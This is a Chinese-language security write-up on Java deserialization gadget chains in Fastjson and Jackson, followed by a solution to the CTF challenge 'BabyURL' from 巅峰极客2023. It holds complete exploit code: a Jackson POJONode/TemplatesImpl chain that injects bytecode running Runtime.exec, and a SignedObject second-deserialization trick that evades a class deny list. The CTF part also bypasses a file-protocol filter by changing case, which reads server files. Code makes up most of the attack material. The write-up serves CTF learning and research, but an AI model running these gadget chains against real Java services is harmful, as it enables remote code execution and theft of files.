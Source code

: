 # Fastjson回眸

在Fastjson中，`JSONArray`和`JSONObject`都实现了`Serializable`接口，这两个类的`toString`方法都能触发`toJSONString`的调用，要把一个JSON对象转字符串，必然涉及到对象属性的获取，会调用到对象的getter方法

从1.2.49开始，`JSONArray`和`JSONObject`都实现了自己的`readObject`方法，自定义了一个`SecureObjectInputStream`并重写了`resolveClass`方法，里面调用了`checkAutoType`来对反序列化的类进行黑白名单检查。需要通过原生反序列化的引用机制来绕过。

利用链：toString(e.g. BadAttributeValueExpException#readObject) -> toJSONString -> evil getter(e.g. TemplatesImpl#getOutputProperties)

# Jackson审视

Jackson的使用和Fastjson类似

| FastJson                 | Jackson                       |
| ------------------------ | ----------------------------- |
| JSONObject               | ObjectNode                    |
| JSONArray                | ArrayNode                     |
| JSON.parseObject静态调用 | ObjectMapper.readTree对象调用 |

继承关系：`POJONode`->`ValueNode`->`BaseJsonNode` -> `JsonNode`

利用点在`BaseJsonNode#toString`，跟到后面 ，对于自定义的类使用`BeanSerializer`进行反序列化，调用`serializeFields`对属性进行还原时,`BeanPropertyWriter`调用`getter`

还是用`TemplatesImpl#getOutputProperties`去打，但是这里直接反序列化会出现问题

> Failed to JDK serialize `POJONode` value: (was java.lang.NullPointerException) (through reference chain: com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl["outputProperties"])

查看报错StackTrace

![image-20230727162629130](..\.gitbook\assets\image-20230727162629130.png)

`invokeWriteReplace`判断`writeReplaceMethod`是否存在，存在则调用

![image-20230727162824036](..\.gitbook\assets\image-20230727162824036.png)

简单粗暴，把这个类的`writeReplaceMethod`删掉即可

完整代码

```java
import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.*;

import javax.management.BadAttributeValueExpException;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;

public class Test {
    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static void main(String[] args) throws Exception{
        // 去除BaseJsonNode的writeReplace方法
        CtClass ctClass =ClassPool.getDefault().get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod ctMethod = ctClass.getDeclaredMethod("writeReplace");
        ctClass.removeMethod(ctMethod);
        ctClass.toClass();

        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody("Runtime.getRuntime().exec(\"calc\");");
        clazz.addConstructor(constructor);
        byte[][] bytes = new byte[][]{clazz.toBytecode()};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setValue(templates, "_bytecodes", bytes);
        setValue(templates, "_name", "test");
        setValue(templates, "_tfactory", null);

        POJONode pojo = new POJONode(templates);

        BadAttributeValueExpException bd = new BadAttributeValueExpException(null);
        setValue(bd, "val", pojo);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(bd);
        oos.close();
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(baos.toByteArray()));
        ois.readObject();
    }
}
```

# 巅峰极客2023 BabyURL

附件👉[Click Me](../backup/geek_BabyURL.zip)

主要的两个路由

一个用于反序列化、一个用于读`/tmp/file`

```java
@GetMapping({"/hack"})
@ResponseBody
public String hack(@RequestParam String payload) {
    byte[] bytes = Base64.getDecoder().decode(payload.getBytes(StandardCharsets.UTF_8));
    ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);

    try {
        ObjectInputStream ois = new MyObjectInputStream(byteArrayInputStream);
        URLHelper o = (URLHelper)ois.readObject();
        System.out.println(o);
        System.out.println(o.url);
        return "ok!";
    } catch (Exception var6) {
        var6.printStackTrace();
        return var6.toString();
    }
}

@RequestMapping({"/file"})
@ResponseBody
public String file() throws IOException {
    File file = new File("/tmp/file");
    if (!file.exists()) {
        file.createNewFile();
    }

    FileInputStream fis = new FileInputStream(file);
    byte[] bytes = new byte[1024];
    fis.read(bytes);
    return new String(bytes);
}
```

`MyObjectInputStream`重写了`resolveClass`

```java
protected Class<?> resolveClass(ObjectStreamClass desc) throws IOException, ClassNotFoundException {
    String className = desc.getName();
    String[] denyClasses = new String[]{"java.net.InetAddress", "org.apache.commons.collections.Transformer", "org.apache.commons.collections.functors", "com.yancao.ctf.bean.URLVisiter", "com.yancao.ctf.bean.URLHelper"};
    String[] var4 = denyClasses;
    int var5 = denyClasses.length;

    for(int var6 = 0; var6 < var5; ++var6) {
        String denyClass = var4[var6];
        if (className.startsWith(denyClass)) {
            throw new InvalidClassException("Unauthorized deserialization attempt", className);
        }
    }

    return super.resolveClass(desc);
}
```

把`URLVisiter`、`URLHelper`禁了，二次反序列化绕过

`URLHelper`的`readObject`调用了`URLVisiter#visitUrl`，获取的结果写入`/tmp/file`

```java
private void readObject(ObjectInputStream in) throws Exception {
    in.defaultReadObject();
    if (this.visiter != null) {
        String result = this.visiter.visitUrl(this.url);
        File file = new File("/tmp/file");
        if (!file.exists()) {
            file.createNewFile();
        }

        FileOutputStream fos = new FileOutputStream(file);
        fos.write(result.getBytes());
        fos.close();
    }
}
```

目的就很明确了，利用`URLVisiter`去读flag，再写入`/tmp/file`

`visitUrl`限制了URL不能以`file`开头，用大写绕过`FILE:///`

```java
if (myurl.startsWith("file")) {
    return "file protocol is not allowed";
}
```

没错，file协议可以列目录

获取flag的名字F14gIsHereY0UGOTIT

```java
URLHelper urlHelper = new URLHelper(" file:///F14gIsHereY0UGOTIT");
URLVisiter urlVisiter = new URLVisiter();
setValue(urlHelper, "visiter", urlVisiter);

KeyPairGenerator keyPairGenerator;
keyPairGenerator = KeyPairGenerator.getInstance("DSA");
keyPairGenerator.initialize(1024);
KeyPair keyPair = keyPairGenerator.genKeyPair();
PrivateKey privateKey = keyPair.getPrivate();
Signature signingEngine = Signature.getInstance("DSA");
SignedObject signedObject = new SignedObject(urlHelper, privateKey, signingEngine);

POJONode pojo = new POJONode(signedObject);
BadAttributeValueExpException bd = new BadAttributeValueExpException(1);
setValue(bd, "val", pojo);

ByteArrayOutputStream baos = new ByteArrayOutputStream();
ObjectOutputStream oos = new ObjectOutputStream(baos);
oos.writeObject(bd);
oos.close();
```